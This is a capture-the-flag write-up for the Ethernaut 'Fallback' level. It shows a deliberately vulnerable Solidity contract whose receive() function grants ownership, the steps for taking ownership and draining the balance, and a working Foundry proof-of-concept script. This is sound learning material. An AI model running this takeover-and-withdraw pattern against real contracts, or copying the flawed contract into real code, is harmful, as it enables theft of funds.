 ```yaml
---
title: Fallback
weight: 2
type: docs
next: fal1out
prev: hello-ethernaut
---
```


[Level1](https://ethernaut.openzeppelin.com/level/1) - ⭐

---

- How to send ether when interacting with an ABI

![Untitled](Fallback%209c93f3e046fa42eb834974a2469dec8c/Untitled.png)

- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods
  ![Untitled](Fallback%209c93f3e046fa42eb834974a2469dec8c/Untitled%201.png)
  ![Untitled](Fallback%209c93f3e046fa42eb834974a2469dec8c/Untitled%202.png)

  ```solidity
  // SPDX-License-Identifier: MIT
  pragma solidity ^0.8.0;

  contract Fallback {

    mapping(address => uint) public contributions;
    address public owner;

    constructor() {
      owner = msg.sender;
      contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner {
          require(
              msg.sender == owner,
              "caller is not the owner"
          );
          _;
      }

    function contribute() public payable {
      require(msg.value < 0.001 ether);
      contributions[msg.sender] += msg.value;
      if(contributions[msg.sender] > contributions[owner]) {
        owner = msg.sender;
      }
    }

    function getContribution() public view returns (uint) {
      return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
      payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
      require(msg.value > 0 && contributions[msg.sender] > 0);
      owner = msg.sender;
    }
  }
  ```

  1. Call the `contribute()` function with a value set to 1 wei.
  2. Call `senTransaction()` with 1 wei also to get ownership of the contract.
  3. Call `withdraw()` to extract the funds from the contract.
     This is frustrating to using the web console to interact with the contract. So I will try to redo the challenge but using foundry this time.
     Let’s start with the same template as before but with the new contract instance address:

  ```solidity
  // SPDX-License-Identifier: UNLICENSED
  pragma solidity ^0.8.13;

  import "forge-std/Script.sol";

  interface Callee {
  }

  contract POC is Script {
      Callee level0 = Callee(0xCe9D58330C2623e00018a10164399238723A4F01);
      function run() external {
          uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
          vm.startBroadcast(deployerPrivateKey);

          vm.stopBroadcast();
      }
  }
  ```

  It is stated that we have to :

  1. claim ownership of the contract
  2. reduce its balance to 0
     This time it’s easier to get the contract interface since we directly have access to the contract source code.

  ```solidity
  interface Callee {
    function owner() view external returns(address);
    function contribute() external payable;
    function withdraw() external;
    function getContribution() external view returns (uint);
  }
  ```

  This is the corresponding interface of the function we are going to utilize.
  From here, everything is quite simple. After a close look at the contract source code we came with the following PoC:

  ```solidity
  contract POC is Script {
      Callee level1 = Callee(0x7f584a9D74D461eFDaD062AA9AfEe9629b96c780);
      function run() external {
          uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
          vm.startBroadcast(deployerPrivateKey);

          console.logUint(level1.getContribution());
          console.logAddress(level1.owner());

          level1.contribute{value: 1}();
          (bool sent,bytes memory data) = address(level1).call{value: 1}("");
          require(sent, "Failed to sennd Ether");
          console.logBytes(data);

          console.logUint(level1.getContribution());

          level1.withdraw();

          console.logUint(level1.getContribution());
          console.logAddress(level1.owner());

          vm.stopBroadcast();
      }
  }
  ```
